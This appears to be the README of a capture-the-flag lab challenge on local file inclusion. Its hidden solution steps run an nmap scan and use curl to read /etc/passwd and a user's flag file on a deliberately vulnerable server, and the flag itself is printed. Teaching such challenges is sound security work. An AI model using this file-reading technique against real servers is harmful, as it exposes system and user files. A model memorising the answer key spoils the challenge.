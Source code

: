 # Famous Quotes

Simple challenge for Local File Inclusion

### Task

Find an HTTP server at IP address `172.20.0.10` and try to exploit the naivity of the programmer to find a flag

## How to solve
<details>
  <summary>Click to reveal how to solve steps</summary>


1. Use `nmap` to find opened ports:
```bash
root@hackerlab:~# nmap -sS -n -v 172.20.0.10
...
PORT     STATE SERVICE
8080/tcp open  http-proxy
MAC Address: 02:42:AC:14:00:0A (Unknown)
...
```

2. Discover the open port 8080 and try to manipulate the server functionality. Eventually you might discover LFI vulnerability and discover a user named bob in the `/etc/passwd` file. And finally, bob has a flag in his home directory:
```bash
root@hackerlab:~# curl 172.20.0.10:8080
Please specify a quote file to read in the URL path. Options are: ['asimov.txt', 'einstein.txt', 'jobs.txt']

root@hackerlab:~# curl 172.20.0.10:8080/asimov.txt
The true delight is in the finding out rather than in the knowing.

root@hackerlab:~# curl 172.20.0.10:8080/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
bob:x:1000:1000::/home/bob:/bin/bash

root@hackerlab:~# curl 172.20.0.10:8080/home/bob/flag.txt
BSY{YouMaySayIamADreamerButIamNotTheOnlyOne}
```


</details>

## Testing

The script [auto-solve.sh](./auto-solve.sh) automatically verifies that the challenge can be solved.
